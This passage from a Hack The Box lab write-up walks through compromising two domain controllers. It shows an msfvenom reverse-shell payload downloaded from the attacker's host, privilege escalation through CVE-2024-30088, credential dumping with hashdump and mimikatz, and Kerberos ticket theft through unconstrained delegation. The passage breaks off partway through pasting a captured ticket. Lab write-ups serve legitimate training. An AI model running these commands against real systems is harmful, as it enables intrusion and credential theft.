"Results": []}, "DcomUsers": {"Collected": true, "FailureReason": null, "Results": []}, "AllowedToDelegate": [], "Sessions": {"Collected": true, "FailureReason": null, "Results": []}, "PrivilegedSessions": {"Collected": false, "FailureReason": null, "Results": []}, "RegistrySessions": {"Collected": false, "FailureReason": null, "Results": []}, "Aces": [{"RightName": "Owns", "IsInherited": false, "PrincipalSID": "S-1-5-21-1152179935-589108180-1989892463-512", "PrincipalType": "Group"}, {"RightName": "GenericAll", "IsInherited": false, "PrincipalSID": "S-1-5-21-1152179935-589108180-1989892463-512", "PrincipalType": "Group"}, {"RightName": "AddKeyCredentialLink", "IsInherited": true, "PrincipalSID": "S-1-5-21-1152179935-589108180-1989892463-526", "PrincipalType": "Group"}, {"RightName": "AddKeyCredentialLink", "IsInherited": true, "PrincipalSID": "S-1-5-21-1152179935-589108180-1989892463-527", "PrincipalType": "Group"}, {"RightName": "GenericAll", "IsInherited": true, "PrincipalSID": "S-1-5-21-1152179935-589108180-1989892463-519", "PrincipalType": "Group"}, {"RightName": "GenericWrite", "IsInherited": true, "PrincipalSID": "DARKZERO.HTB-S-1-5-32-544", "PrincipalType": "Group"}, {"RightName": "WriteOwner", "IsInherited": true, "PrincipalSID": "DARKZERO.HTB-S-1-5-32-544", "PrincipalType": "Group"}, {"RightName": "WriteDacl", "IsInherited": true, "PrincipalSID": "DARKZERO.HTB-S-1-5-32-544", "PrincipalType": "Group"}], "HasSIDHistory": [], "IsDeleted": false, "Status": null, "IsACLProtected": false}],"meta":{"methods":0,"type":"computers","count":1, "version":5}}
```

```shell
<--- CUT FOR BREVITY --->
"Properties": { "name": "DC01.DARKZERO.HTB", "unconstraineddelegation": true, // ← THIS "enabled": true,
<--- CUT FOR BREVITY --->
```



This meant if we could figure out a way to catch a `Kerberos Ticket` from `DC01` on `DC02`, eventually through `Coercing`, we then could initiate a `DCSync` and grab the `hash` of the `Administrator` account of `DC01`.

## Privilege Escalation to SYSTEM on DC02

### CVE-2024-30088: authz_basep

First of all we needed to get `SYSTEM` on `DC02`. Since we were pretty lost we decided to have a little bit automated help. Therefore we fired up `Metasploit` to run `local_exploit_suggester`.

```shell
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Use the resource command to run commands from a file
                                                  
 ______________________________________
/ it looks like you're trying to run a \
\ module                               /
 --------------------------------------
 \
  \
     __
    /  \
    |  |
    @  @
    |  |
    || |/
    || ||
    |\_/|
    \___/


       =[ metasploit v6.4.84-dev                                ]
+ -- --=[ 2,547 exploits - 1,309 auxiliary - 1,683 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.16.97
LHOST => 10.10.16.97
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.97:4444
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/DarkZero/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.97 LPORT=4444 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

```cmd
PS C:\temp> iwr 10.10.16.97/asdf.exe -o asdf.exe
```

```cmd
PS C:\temp> .\asdf.exe
```

```shell
[*] Sending stage (203846 bytes) to 10.129.100.222
[*] Meterpreter session 2 opened (10.10.16.97:4444 -> 10.129.100.222:53722) at 2025-10-05 06:19:38 +0200

meterpreter > 
```

We sifted through the output and after a bit of testing we figured out that `CVE-2024-30088` used a flaw in the `Windows Kernel` in order to perform `Token Manipulation` which ends up in `Local Privilege Escalation (LPE)`.

- [https://www.cve.news/cve-2024-30088/](https://www.cve.news/cve-2024-30088/)

```shell
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 172.16.20.2 - Collecting local exploits for x64/windows...
/usr/share/metasploit-framework/lib/rex/proto/ldap.rb:13: warning: already initialized constant Net::LDAP::WhoamiOid
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/net-ldap-0.20.0/lib/net/ldap.rb:344: warning: previous definition of WhoamiOid was here
[*] 172.16.20.2 - 206 exploit checks are being tried...
[+] 172.16.20.2 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 172.16.20.2 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 172.16.20.2 - exploit/windows/local/cve_2022_21882_win32k: The service is running, but could not be validated. May be vulnerable, but exploit not tested on Windows Server 2022
[+] 172.16.20.2 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[+] 172.16.20.2 - exploit/windows/local/cve_2023_28252_clfs_driver: The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
[+] 172.16.20.2 - exploit/windows/local/cve_2024_30085_cloud_files: The target appears to be vulnerable.
[+] 172.16.20.2 - exploit/windows/local/cve_2024_30088_authz_basep: The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 2113
[+] 172.16.20.2 - exploit/windows/local/cve_2024_35250_ks_driver: The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2022
[+] 172.16.20.2 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 49 / 49
[*] 172.16.20.2 - Valid modules for session 2:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The service is running, but could not be validated. May be vulnerable, but exploit not tested on Windows Server 2022
 4   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2023_28252_clfs_driver               Yes                      The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
 6   exploit/windows/local/cve_2024_30085_cloud_files               Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2024_30088_authz_basep               Yes                      The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 2113
 8   exploit/windows/local/cve_2024_35250_ks_driver                 Yes                      The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2022
 9   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 11  exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.
 12  exploit/windows/local/bits_ntlm_token_impersonation            No                       The target is not exploitable.
 13  exploit/windows/local/bypassuac_comhijack                      No                       The target is not exploitable.
 14  exploit/windows/local/bypassuac_eventvwr                       No                       The target is not exploitable.
 15  exploit/windows/local/bypassuac_fodhelper                      No                       The target is not exploitable.
 16  exploit/windows/local/bypassuac_sluihijack                     No                       The target is not exploitable.
 17  exploit/windows/local/canon_driver_privesc                     No                       The target is not exploitable. No Canon TR150 driver directory found
 18  exploit/windows/local/capcom_sys_exec                          No                       Cannot reliably check exploitability.
 19  exploit/windows/local/cve_2019_1458_wizardopium                No                       The target is not exploitable.
 20  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   No                       The target is not exploitable. Target is not running a vulnerable version of Windows!
 21  exploit/windows/local/cve_2020_0796_smbghost                   No                       The target is not exploitable.
 22  exploit/windows/local/cve_2020_1048_printerdemon               No                       The target is not exploitable.
 23  exploit/windows/local/cve_2020_1054_drawiconex_lpe             No                       The target is not exploitable. No target for win32k.sys version 6.2.20348.2110
 24  exploit/windows/local/cve_2020_1313_system_orchestrator        No                       The target is not exploitable.
 25  exploit/windows/local/cve_2020_1337_printerdemon               No                       The target is not exploitable.
 26  exploit/windows/local/cve_2020_17136                           No                       The target is not exploitable. The build number of the target machine does not appear to be a vulnerable version!
 27  exploit/windows/local/cve_2021_21551_dbutil_memmove            No                       The target is not exploitable.
 28  exploit/windows/local/cve_2021_40449                           No                       The target is not exploitable. The build number of the target machine does not appear to be a vulnerable version!
 29  exploit/windows/local/cve_2022_3699_lenovo_diagnostics_driver  No                       The target is not exploitable.
 30  exploit/windows/local/cve_2023_21768_afd_lpe                   No                       The target is not exploitable. The exploit only supports Windows 11 22H2
 31  exploit/windows/local/gog_galaxyclientservice_privesc          No                       The target is not exploitable. Galaxy Client Service not found
 32  exploit/windows/local/ikeext_service                           No                       The check raised an exception.
 33  exploit/windows/local/lexmark_driver_privesc                   No                       The target is not exploitable. No Lexmark print drivers in the driver store
 34  exploit/windows/local/ms10_092_schelevator                     No                       The target is not exploitable. Windows Server 2022 (10.0 Build 20348). is not vulnerable
 35  exploit/windows/local/ms14_058_track_popup_menu                No                       Cannot reliably check exploitability.
 36  exploit/windows/local/ms15_051_client_copy_image               No                       The target is not exploitable.
 37  exploit/windows/local/ms15_078_atmfd_bof                       No                       Cannot reliably check exploitability.
 38  exploit/windows/local/ms16_014_wmi_recv_notif                  No                       The target is not exploitable.
 39  exploit/windows/local/ms16_075_reflection                      No                       The target is not exploitable.
 40  exploit/windows/local/ms16_075_reflection_juicy                No                       The target is not exploitable.
 41  exploit/windows/local/ntapphelpcachecontrol                    No                       The check raised an exception.
 42  exploit/windows/local/nvidia_nvsvc                             No                       The check raised an exception.
 43  exploit/windows/local/panda_psevents                           No                       The target is not exploitable.
 44  exploit/windows/local/ricoh_driver_privesc                     No                       The target is not exploitable. No Ricoh driver directory found
 45  exploit/windows/local/srclient_dll_hijacking                   No                       The target is not exploitable. Target is not Windows Server 2012.
 46  exploit/windows/local/tokenmagic                               No                       The target is not exploitable.
 47  exploit/windows/local/virtual_box_opengl_escape                No                       The target is not exploitable.
 48  exploit/windows/local/webexec                                  No                       The check raised an exception.
 49  exploit/windows/local/win_error_cve_2023_36874                 No                       The target is not exploitable.
```

We put our current session in the background and executed the `module` for the `authz_basep` exploit.

```shell
meterpreter > background
[*] Backgrounding session 2...
```

```shell
msf exploit(multi/handler) > use exploit/windows/local/cve_2024_30088_authz_basep
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

```shell
msf exploit(windows/local/cve_2024_30088_authz_basep) > set SESSION 2
SESSION => 2
```

```shell
msf exploit(windows/local/cve_2024_30088_authz_basep) > set LHOST 10.10.16.97
LHOST => 10.10.16.97
```

```shell
msf exploit(windows/local/cve_2024_30088_authz_basep) > set LPORT 4445
LPORT => 4445
```

```shell
msf exploit(windows/local/cve_2024_30088_authz_basep) > run
[*] Started reverse TCP handler on 10.10.16.97:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 2113
[*] Reflectively injecting the DLL into 3988...
[+] The exploit was successful, reading SYSTEM token from memory...
[+] Successfully stole winlogon handle: 784
[+] Successfully retrieved winlogon pid: 616
[*] Sending stage (203846 bytes) to 10.129.100.222
[*] Meterpreter session 2 opened (10.10.16.97:4445 -> 10.129.100.222:53643) at 2025-10-05 06:24:28 +0200

meterpreter > 
```

And we got a shell back as `SYSTEM`.

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## user.txt

This allowed us to grab the `user.txt` very unconventionally from within the `Desktop` of `Administrator` on `DC02`.

```shell
meterpreter > cat C:\\Users\\Administrator\\Desktop\\user.txt
6285a04da10fe74f3523728444dfd022
```

## Credential Harvesting

At this point we had high hopes to extract some `stored credentials` using `mimikatz` but... there weren't any. So we went on our credential hunt not knowing that it would lead to nothing useful.

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6963aad8ba1150192f3ca6341355eb49:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:43e27ea2be22babce4fbcff3bc409a9d:::
svc_sql:1103:aad3b435b51404eeaad3b435b51404ee:816ccb849956b531db139346751db65f:::
DC02$:1000:aad3b435b51404eeaad3b435b51404ee:663a13eb19800202721db4225eadc38e:::
darkzero$:1105:aad3b435b51404eeaad3b435b51404ee:4276fdf209008f4988fa8c33d65a2f94:::
```

```shell
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

```shell
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain        NTLM                              SHA1                                      DPAPI
--------       ------        ----                              ----                                      -----
Administrator  darkzero-ext  6963aad8ba1150192f3ca6341355eb49  93564754ec637caa92a4a9b7e8fc080a7f9fe8bb  07f02ffc631a34deccda1490a397d2b4
DC02$          darkzero-ext  663a13eb19800202721db4225eadc38e  be3d502f8be10e1c8731103e904fd3f34b89eaeb  be3d502f8be10e1c8731103e904fd3f3
svc_sql        darkzero-ext  816ccb849956b531db139346751db65f  55c16d33c59d421bb40ca1f18b5ed46e8dfc403a  cda84acbc3e884f322d47ab3922a9450

wdigest credentials
===================

Username       Domain        Password
--------       ------        --------
(null)         (null)        (null)
Administrator  darkzero-ext  (null)
DC02$          darkzero-ext  (null)
svc_sql        darkzero-ext  (null)

kerberos credentials
====================

Username       Domain        Password
--------       ------        --------
(null)         (null)        (null)
Administrator  DARKZERO.EXT  (null)
DC02$          darkzero.ext  a8 e1 9b 6a 34 5f 5f d4 10 5c 5e 66 c3 53 ed dd 7b 57 01 1d ab b7 ae d7 11 ca 85 49 fc 3b 51 2b 12 9a e6 65 19 ff 51 43 b9 ea 9e 50 72 39 4d 69 11 5a 9d 06 36 79 41 31 17 e4 da d2 38 76 cd 52 aa 46 2a 08 bb 41 38 23 8e 3b dc 01 e2 73 83 1c 14 b3 f2 20 27 03 3e fd c7 34 29 5b af 30 76 11 e5 a1 9f 55 d5 eb 58 08 c1 a6 90 a0 28 b1 9d be 0c a6 ef 4d 75 fe 86 4f 91 03 81 50 05 fc e4 1b d7 54 60 1e
                              55 25 da 29 b9 20 01 ec 17 5c 8c c5 31 88 ef bf 68 06 11 4b b2 7a b2 f2 8e 67 37 ed 82 ab d5 e1 c8 83 f0 2b 65 d6 2c 34 c2 65 9c 8f e8 d8 19 0b 48 23 1d b9 a5 4e 2f 94 41 45 eb f9 e7 0a 26 0d a9 3c 64 05 2c ce fe 55 ff 63 9f 26 eb e2 47 0e 46 25 8e 46 b6 dd df 69 d3 bd fa 8f 9d 38 7c 95 1a 8c c6 ab 3e 72 58 39 b7 30 53 8f
dc02$          DARKZERO.EXT  (null)
svc_sql        DARKZERO.EXT  (null)
```

## Privilege Escalation to SYSTEM on DC01

### Unconstrained Delegation through Coercing

We still had the `Unconstrained Delegation` in the back of our heads and the easiest way we could think of would be to catch a `Ticket` on `DC02` using `Rubeus` while it got triggered through `MSSQL` on `DC01`.

#### Port Forwarding

To make things easy we created a `SOCKS5` configuration through `Metasploit` to reach the `instance` on `DC01` in a convenient way.

```shell
msf exploit(windows/local/cve_2024_30088_authz_basep) > use auxiliary/server/socks_proxy
```

```shell
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
```

```shell
msf auxiliary(server/socks_proxy) > set SRVPORT 1080
SRVPORT => 1080
```

```shell
msf auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
```

```shell
msf auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
```

```shell
msf auxiliary(server/socks_proxy) > 
[*] Starting the SOCKS proxy server
```

```shell
┌──(kali㉿kali)-[~]
└─$ proxychains4 -q impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!'@'DC01.darkzero.htb' -windows-auth
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)>
```

### Use Rubeus to catch Ticket Granting Ticket (TGT)

We moved `Rubeus` over to `DC02` and fired it up in `monitor mode` listening for `incoming tickets`. This only worked because we `elevated` our `privileges` to `SYSTEM` first.

```shell
meterpreter > shell
Process 124 created.
Channel 2 created.
Microsoft Windows [Version 10.0.20348.2113]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

- [https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_x64/Rubeus.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_x64/Rubeus.exe)
```cmd
C:\temp> iwr 10.10.16.97/Rubeus.exe -o Rubeus.exe
```

```cmd
C:\temp\Rubeus.exe monitor /interval:1 /filteruser:DC01$ /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: TGT Monitoring
[*] Target user     : DC01$
[*] Monitoring every 1 seconds for new TGTs
```

Next we used `xp_dirtree` from within the `MSSQL Shell` of `DC01` requesting the share on `DC02`.

```shell
SQL (darkzero\john.w  guest@master)> xp_dirtree \\DC02.darkzero.ext\foobar
subdirectory   depth   file   
------------   -----   ----   
SQL (darkzero\john.w  guest@master)> 
```

And `Rubeus` catched the ticket for us.

```cmd
[*] 10/5/2025 11:22:49 AM UTC - Found new TGT:

  User                  :  DC01$@DARKZERO.HTB
  StartTime             :  10/5/2025 4:22:48 AM
  EndTime               :  10/5/2025 2:22:48 PM
  RenewTill             :  10/12/2025 4:22:48 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDERBUktaRVJPLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMREFSS1pFUk8uSFRCo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDYPPzgInQu2joilihgD51S/tHe9LnYS/EqXm5T1cl82tmQx7MgKt03n8Lf7b4RE3lTxRinPevS9AHAD78RmgMr6R4/b+jxUZLrK7x+WrAHg70iX7q6/9EBj3wUE5ISrkhnhHUmM2e8Xd6dug+3RhbiC0McqfsHhHA3n/enCq+vCkhSkcv7NZF3TGHbU/wIK0rFpwacqxIUbgvWkwVuG+ds0aQG3/5WQXnNpOZ9KUOl3xC+8MhLlXkJokCa4VvKSFVVe96uFHLsSiTzKffWz5OIysaUJq5rRc4+fb/QVpSlyGuoi2MJnDocvtFPRtH/6B/01lv2VnKDUh3rebkMwl/bZi+NUuHSr8b97UpWqLAIiO7W3UWaqG531rBAJ37LxrRWC0xjK7egOSZbmq+Wn2gyKd1Xl+/XNPUR9KK83L6dW+IOLSYcAmZmv1VbanvnRs1WDsNic2Il6sGluHye2ws/JXMNgHSA8IRpGlRU9zxS3E+/hmz7itLjk0nQURlJzjoQearRpEIUv0V4Md8p5GRnqg6hbmkbd22UKKVtHOEU1bwEGJeAZfSHrqx6em5hgLp0wr/Bl7pMIuBEbXPHFjb0a0JNWmBo51HWXer0Jju5ZWwK+RzadXiOkv+n+SlMoDvvFOqfb9ARJ+HiIgalndcR9FjeciBPa96tz+5wbEsUhFY7hfdkMkufN1zcxA1nQGYUAdrVcU9J97lLGs1qG5Tk9SKlYrTT3eupNc7+PzVNOXG211ht9TNigrNGX+2gz5nvLJbOqTB3QHbWvAFufV2fIo8BZIh44iaDUKyX5uMJVOPpU5E6jKmZpMrPCX/Y6uhZSg6DltuFNh3SnUM9e3zGRS6irqMdynYQHu3916o3t2ZB5Xp8PuhvnaO43Q9zeCEwmFVSJ4XvtezFBUXHjBtGBD05WqnqwBeZ5ZmRVwRNdrrWChqbR8A0yssIUeOzn2lqMWwYPF0/VLvP7Z3869T7mq6T2gwKhv5rKASSYW0oCPaP2YqoJoZdNi/T9QF8OXodzKnJ+e22cPuzb3/3YNiYrhf3IkcklB0rlyLMn9WdjIL2PhJH28/LwmcDDWQicKSp+0AJqL7LOJMT2zrJUEQ18g5Esh248kM2t469wGDA7UoRWdROJl+l31I5JEezxEoOWVQrqzlUJEePyheRoI5ta128sgYeVqbfVhYojgOgP9aJc0XgHXc6Q9YxvO+8sKqRnPQM1Nu5o1sNivB7vSYMwNk3xBIkzgcQHQuivOSou4fhPZpv/ncGUDjRdvJpctNDNTMqhQoVCHqlb/Jr6bSebJwz88VF2fZDwTziz9YP13CRcFwb/ZH/rOKEiK8EJ9dTChEqDFeWZos0QffRUdmOpDPCQWLt/yPHCccVg1VlpL6gBZBEi9FMcpuFhiGzjivykPhADDJjO/F/eoOsC5cEWcW0yf9fSo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQg+jdktWSWR/d4MMioGgZigZAgoExtvibbf7tLau8mX4ehDhsMREFSS1pFUk8uSFRCohIwEKADAgEBoQkwBxsFREMwMSSjBwMFAGChAAClERgPMjAyNTEwMDUxMTIyNDhaphEYDzIwMjUxMDA1MjEyMjQ4WqcRGA8yMDI1MTAxMjExMjI0OFqoDhsMREFSS1pFUk8uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxEQVJLWkVSTy5IVEI=

[*] Ticket cache size: 1
```

Next we `imported` the `ticket` on `DC02` using `Rubeus` again. At this point it was a bit of switching sessions back and forth within `Metasploit`.

```shell
^Z
Background channel 2? [y/N]  y
meterpreter >
```

```shell
meterpreter > shell
Process 676 created.
Channel 3 created.
Microsoft Windows [Version 10.0.20348.2113]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```cmd
C:\Windows\system32>echo "doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDERBUktaRVJPLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMREFSS1pFUk8uSFRCo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDYPPzgInQu2joilihgD51S/tHe9LnYS/EqXm5T1cl82tmQx7MgKt03n8Lf7b4RE3lTxRinPevS9AHAD78RmgMr6R4/b+jxUZLrK7x+WrAHg70iX7q6/9EBj3wUE5ISrkhnhHUmM2e8Xd6dug+3RhbiC0McqfsHhHA3n/enCq+vCkhSkcv7NZF3TGHbU/wIK0rFpwacqxIUbgvWkwVuG+ds0aQG3/5WQXnNpOZ9KUOl3xC+8MhLlXkJokCa4VvKSFVVe96uFHLsSiTzKffWz5OIysaUJq5rRc4+fb/QVpSlyGuoi2MJnDocvtFPRtH/6B/01lv2VnKDUh3rebkMwl/bZi+NUuHSr8b97UpWqLAIiO7W3UWaqG531rBAJ37LxrRWC0xjK7egOSZbmq+Wn2gyKd1Xl+/XNPUR9KK83L6dW+IOLSYcAmZmv1VbanvnRs1WDsNic2Il6sGluHye2ws/JXMNgHSA8IRpGlRU9zxS3E+/hmz7itLjk0nQURlJzjoQearRpEIUv0V4Md8p5GRnqg6hbmkbd22UKKVtHOEU1bwEGJeAZfSHrqx6em5hgLp0wr/Bl7pMIuBEbXPHFjb0a0JNWmBo51HWXer0Jju5ZWwK+RzadXiOkv+n+SlMoDvvFOqfb9ARJ+HiIgalndcR9FjeciBPa96tz+5wbEsUhFY7hfdkMkufN1zcxA1nQGYUAdrVcU9J97lLGs1qG5Tk9SKlYrTT3eupNc7+PzVNOXG211ht9TNigrNGX+2gz5nvLJbOqTB3QHbWvAFufV2fIo8BZIh44iaDUKyX5uMJVOPpU5E6jKmZpMrPCX/Y6uhZSg6DltuFNh3SnUM9e3zGRS6irqMdynYQHu3916o3t2ZB5Xp8PuhvnaO43Q9zeCEwmFVSJ4XvtezFBUXHjBtGBD05WqnqwBeZ5ZmRVwRNdrrWChqbR8A0yssIUeOzn2lqMWwYPF0/VLvP7Z3869T7mq6T2gwKhv5rKASSYW0oCPaP2YqoJoZdNi/T9QF8OXodzKnJ+e22cPuzb3/3YNiYrhf3IkcklB0rlyLMn9WdjIL2PhJH28/LwmcDDWQicKSp+0AJqL7LOJMT2zrJUEQ18g5Esh248kM2t469wGDA7UoRWdROJl+l31I5JEezxEoOWVQrqzlUJEePyheRoI5ta128sgYeVqbfVhYojgOgP9aJc0XgHXc6Q9YxvO+8sKqRnPQM1Nu5o1sNivB7vSYMwNk3xBIkzgcQHQuivOSou4fhPZpv/ncGUDjRdvJpctNDNTMqhQoVCHqlb/Jr6bSebJwz88VF2fZDwTziz9YP13CRcFwb/ZH/rOKEiK8EJ9dTChEqDFeWZos0QffRUdmOpDPCQWLt/yPHCccVg1VlpL6gBZBEi9FMcpuFhiGzjivykPhADDJjO/F/eoOsC5cEWcW0yf9fSo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQg+jdktWSWR/d4MMioGgZigZAgoExtvibbf7tLau8mX4ehDhsMREFSS1pFUk8uSFRCohIwEKADAgEBoQkwBxsFREMwMSSjBwMFAGChAAClERgPMjAyNTEwMDUxMTIyNDhaphEYDzIwMjUxMDA1MjEyMjQ4WqcRGA8yMDI1MTAxMjExMjI0OFqoDhsMREFSS1pFUk8uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxEQVJLWkVSTy5IVEI=" > C:\temp\dc01.b64
echo "doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDERBUktaRVJPLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMREFSS1pFUk8uSFRCo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDYPPzgInQu2joilihgD51S/tHe9LnYS/EqXm5T1cl82tmQx7MgKt03n8Lf7b4RE3lTxRinPevS9AHAD78RmgMr6R4/b+jxUZLrK7x+WrAHg70iX7q6/9EBj3wUE5ISrkhnhHUmM2e8Xd6dug+3RhbiC0McqfsHhHA3n/enCq+vCkhSkcv7NZF3TGHbU/wIK0rFpwacqxIUbgvWkwVuG+ds0aQG3/5WQXnNpOZ9KUOl3xC+8MhLlXkJokCa4VvKSFVVe96uFHLsSiTzKffWz5OIysaUJq5rRc4+fb/QVpSlyGuoi2MJnDocvtFPRtH/6B/01lv2VnKDUh3rebkMwl/bZi+NUuHSr8b97UpWqLAIiO7W3UWaqG531rBAJ37LxrRWC0xjK7egOSZbmq+Wn2gyKd1Xl+/XNPUR9KK83L6dW+IOLSYcAmZmv1VbanvnRs1WDsNic2Il6sGluHye2ws/JXMNgHSA8IRpGlRU9zxS3E+/hmz7itLjk0nQURlJzjoQearRpEIUv0V4Md8p5GRnqg6hbmkbd22UKKVtHOEU1bwEGJeAZfSHrqx6em5hgLp0wr/Bl7pMIuBEbXPHFjb0a0JNWmBo51HWXer0Jju5ZWwK+RzadXiOkv+n+SlMoDvvFOqfb9ARJ+HiIgalndcR9FjeciBPa96tz+5wbEsUhFY7hfdkMkufN1zcxA1nQGYUAdrVcU9J97lLGs1qG5Tk9SKlYrTT3eupNc7+PzVNOXG211ht9TNigrNGX+2gz5nvLJbOqTB3QHbWvAFufV2fIo8BZIh44iaDUKyX5uMJVOPpU5E6jKmZpMrPCX/Y6uhZSg6DltuFNh3SnUM9e3zGRS6irqMdynYQHu3916o3t2ZB5Xp8PuhvnaO43Q9zeCEwmFVSJ4XvtezFBUXHjBtGBD05WqnqwBeZ5ZmRVwRNdrrWChqbR8A0yssIUeOzn2lqMWwYPF0/VLvP7Z3869T7mq6T2gwKhv5rKASSYW0oCPaP2YqoJoZdNi/T9QF8OXodzKnJ+e22cPuzb3/3YNiYrhf3IkcklB0rlyLMn9WdjIL2PhJH28/LwmcDDWQicKSp+0AJqL7LOJMT2zrJUEQ18g5Esh248kM2t469wGDA7UoRWdROJl+l31I5JEezxEoOWVQrqzlUJEePyheRoI5ta128sgYeVqbfVhYojgOgP9aJc0XgHXc6Q9YxvO+8sKqRnPQM1Nu5o1sNivB7vSYMwNk3xBIkzgcQHQuivOSou4fhPZpv/ncGUDjRdvJpctNDNTMqhQoVCHqlb/Jr6bSebJwz88VF2fZDwTziz9YP13CRcFwb/ZH/rOKEiK8EJ9dTChEqDFeWZos0QffRUdmOpDPCQWLt/yPHCccVg1VlpL6gBZBEi9FMcpuFhiGzjivykPhADDJjO/F/eoOsC5cEWcW0yf9fSo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQg+jdktWSWR/d4MMioGgZigZAgoExtvibbf7tLau8mX4ehDhsMREFSS1pFUk8uSFRCohIwEKADAgEBoQkwBxsFREMwMSSjBwMFAGChAAClERgPMjAyNTEwMDUxMTIyNDhaphEYDzIwMjUxMDA1M